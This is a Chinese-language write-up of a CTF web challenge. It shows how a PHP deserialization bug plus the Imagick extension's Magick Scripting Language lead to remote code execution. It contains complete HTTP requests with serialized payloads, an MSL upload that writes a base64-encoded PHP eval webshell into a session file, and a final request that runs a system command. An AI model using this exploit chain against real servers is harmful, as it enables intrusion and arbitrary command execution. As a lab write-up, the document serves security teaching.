



## 题目writeup：

题目灵感来自于`swarm`团队在7月14日发布的[文章](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)，该文章展示了针对如下结构的php代码的一种全新攻击方法。
```php
new $_GET[1]($_GET[2]);
```

网站首页展示的就是源码。


存在反序列化漏洞，以及一个`backdoor`类。类中有两个特殊结构：
1. 在`__wakeup`可以执行一次任意无参函数的结构。
2. 在`__sleep`可以将任意文件包含。

`include`临时文件或者`session`即可`rce`，考虑如何触发`__sleep`。通过php内核源码可知，当前环境下唯一存在序列化的地方就是`session`，所以要想办法控制`session`数据。

接下来尝试触发`phpinfo`，收集信息。可以发现网站存在`imagick`扩展。


那么接下来就是利用imagick扩展的特性进行攻击。

根据这篇[文章](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)发现，`imagick`类在初始化时可以执行`Magick Scripting Language`。那么考虑用其特性，在临时文件中写入`Magick Scripting Language`，然后在`imagick`类初始化的时候执行临时文件写入`session`文件。再触发`__sleep`包含`session`文件以`RCE`。

写入文件时须注意以下几点：
1. 因为`imagick`对文件格式解析较严，需要写入的文件必须是其支持的图片格式，如jpg、gif、ico等。如果直接插入`session`数据，会导致解析图片错误，导致文件无法写入。
2. `php`对`session`的格式解析也较为严格。数据尾不可以存在脏数据，否则`session`解析错误会无法触发`__sleep`。

所以我们需要找到一个容许在末尾添加脏数据，且脏数据不会被`imagick`抹去的图片格式。`imagick`共支持几十种图片格式，

找到一个这样的图片格式并不难。最后发现可以使用`ppm`格式，其不像其他图片格式存在`crc`校验或者在文件末尾存在`magic`头。结构十分简单，可以进行利用。

首先利用网站提供的功能，删除`/tmp`下的文件。
```http
GET /?cmd=rm HTTP/1.1
Host: 127.0.0.1:18080
Accept: */*


```

然后如下发包。这样`imagick`就会开始执行`Magick Scripting Language`，写入文件`/tmp/sess_afkl`。
```http
POST /?data=O%3A8%3A%22backdoor%22%3A3%3A%7Bs%3A14%3A%22%00backdoor%00argv%22%3Bs%3A17%3A%22vid%3Amsl%3A%2Ftmp%2Fphp%2A%22%3Bs%3A15%3A%22%00backdoor%00class%22%3Bs%3A7%3A%22imagick%22%3Bs%3A12%3A%22do_exec_func%22%3Bb%3A0%3B%7D&cmd=unserialze HTTP/1.1
Host: 127.0.0.1:18080
Accept: */*
Content-Length: 703
Content-Type: multipart/form-data; boundary=------------------------c32aaddf3d8fd979

--------------------------c32aaddf3d8fd979
Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="inline:data://image/x-portable-anymap;base64,UDYKOSA5CjI1NQoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADw/cGhwIGV2YWwoJF9HRVRbMV0pOz8+fE86ODoiYmFja2Rvb3IiOjI6e3M6NDoicGF0aCI7czoxNDoiL3RtcC9zZXNzX2Fma2wiO3M6MTI6ImRvX2V4ZWNfZnVuYyI7YjowO30=" />
 <write filename="/tmp/sess_afkl" />
</image>
--------------------------c32aaddf3d8fd979--
```

随后使用执行一次任意无参函数的功能，触发`session_start`函数，并设置`cookie`为`PHPSESSID=afkl`，即可文件包含`session`，成功`RCE`。`flag`执行根目录的`readflag`即可。
```http
GET /?data=O%3A8%3A%22backdoor%22%3A2%3A%7Bs%3A5%3A%22class%22%3Bs%3A13%3A%22session_start%22%3Bs%3A12%3A%22do_exec_func%22%3Bb%3A1%3B%7D&cmd=unserialze&1=system('/readflag'); HTTP/1.1
Host: 127.0.0.1:18080
Accept: */*
Cookie: PHPSESSID=afkl


```

